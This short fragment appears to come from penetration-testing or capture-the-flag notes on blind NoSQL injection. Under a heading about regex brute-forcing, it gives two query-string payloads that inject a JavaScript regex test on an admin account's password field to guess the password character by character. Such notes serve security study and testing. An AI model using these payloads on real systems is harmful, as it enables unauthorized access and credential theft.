 #### Use regex to bruteforce
`?search=admin' %26%26 this.password.match(/d/)%00`

`?search=admin' %26%26 this.password.match(/^dc.$/)%00`
